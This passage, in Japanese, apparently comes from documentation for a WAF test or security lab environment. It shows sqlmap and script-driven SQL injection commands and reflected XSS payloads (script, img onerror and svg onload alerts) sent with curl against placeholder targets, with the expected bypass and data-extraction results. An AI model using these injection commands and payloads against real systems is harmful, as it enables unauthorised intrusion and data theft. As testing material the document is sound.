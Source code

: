 #### 自動化されたSQLインジェクション攻撃
```bash
# Python スクリプトを使用した自動攻撃
python3 sql_injection_test.py --target <target-url> --verbose

# sqlmapを使用した高度な攻撃
sqlmap -u "http://<target-url>/search?query=test" \
  --dbs \
  --batch \
  --level 3 \
  --risk 2
```

#### 期待される結果

##### レベル1（無防備状態）
- **認証バイパス**: 100%成功
- **データ抽出**: 全ユーザー情報の取得可能
- **データベース構造**: 完全な情報取得可能
- **影響**: 機密データの完全な漏洩

##### レベル2以降（WAF保護）
- **認証バイパス**: 基本的なペイロードは70-90%ブロック
- **データ抽出**: 高度なペイロードの一部は成功
- **エラーメッセージ**: 403 Forbidden（WAFブロック）
- **影響**: 攻撃の大部分は軽減されるが、完全ではない

### 2.2 クロスサイトスクリプティング（XSS）攻撃

#### 目的
Webアプリケーションの入力検証の不備を悪用してスクリプトを実行する攻撃をシミュレートします。

#### 反射型XSS攻撃

##### 基本的なXSSペイロード
```bash
# 検索機能でのXSS攻撃
curl "http://<target-url>/search?q=<script>alert('XSS')</script>"

# より巧妙なペイロード
curl "http://<target-url>/search?q=<img src=x onerror=alert('XSS')>"

# イベントハンドラーを使用したペイロード
curl "http://<target-url>/search?q=<svg onload=alert('XSS')>"
```

##### 自動化されたXSS攻撃
```bash
# Python スクリプトを使用した攻撃
python3 xss_test.py --target <target-url> --payloads-file xss_payloads.txt

# 複数のエンドポイントでのテスト
python3 xss_test.py --target <target-url> --endpoints /search,/comment,/profile
```
